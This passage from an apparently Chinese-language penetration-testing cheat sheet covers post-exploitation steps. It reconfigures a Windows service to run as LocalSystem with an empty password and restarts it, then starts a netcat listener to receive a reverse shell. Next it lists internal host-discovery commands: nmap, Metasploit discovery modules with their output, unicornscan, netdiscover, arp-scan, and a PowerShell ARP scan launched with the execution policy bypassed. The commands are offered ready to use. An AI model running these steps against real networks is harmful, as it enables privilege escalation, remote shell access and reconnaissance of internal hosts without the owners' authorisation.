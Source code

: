 ##### 	2)重启服务

```
sc config [服务] obj= ".\LocalSystem" password=""
net start [服务]
```

##### 	3)接受反弹shell

```
nc -lvvp [port]
```



## 探测内网存活主机

### 1、基于 UDP

```
1.nmap扫描
root@John:~# nmap -sU -T5 -sV --max-retries 1 192.168.1.100 -p 500
慢的令人发指
2.msf扫描
msf > use auxiliary/scanner/discovery/udp_probe
msf > use auxiliary/scanner/discovery/udp_sweep
3.unicornscan扫描
linux下使用推荐
root@John:~# unicornscan -mU 192.168.1.100
4.ScanLine扫描
项目地址：https://www.mcafee.com/ca/downloads/free-tools/scanline.aspx
网盘地址：http://pan.baidu.com/s/1i4A1wLR 密码：hvyx
McAfee出品，win下使用推荐。管理员执行。
```

### 2、基于 ARP

#### 前提：suid权限

```
1.nmap扫描
root@John:~# nmap -sn -PR 192.168.1.1/24
2.msf扫描
msf > use auxiliary/scanner/discovery/arp_sweep
msf auxiliary(arp_sweep) > show options
Module options (auxiliary/scanner/discovery/arp_sweep):
Name Current Setting Required Description
---- --------------- -------- -----------
INTERFACE no The name of the interface
RHOSTS yes The target address range or CIDR identifier
SHOST no Source IP Address
SMAC no Source MAC Address
THREADS 1 yes The number of concurrent threads
TIMEOUT 5 yes The number of seconds to wait for new data
msf auxiliary(arp_sweep) > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf auxiliary(arp_sweep) > set THREADS 10
3.netdiscover
root@John:~# netdiscover -r 192.168.1.0/24 -i wlan0
4.arp-scan（linux）
(推荐)速度与快捷
项目地址：https://linux.die.net/man/1/arp-scan
arp-scan没有内置kali，需要下载安装。
5.Powershell
c:\tmp>powershell.exe -exec bypass -Command "Import-Module
.\arpscan.ps1;Invoke-ARPScan -CIDR 192.168.1.0/24"
```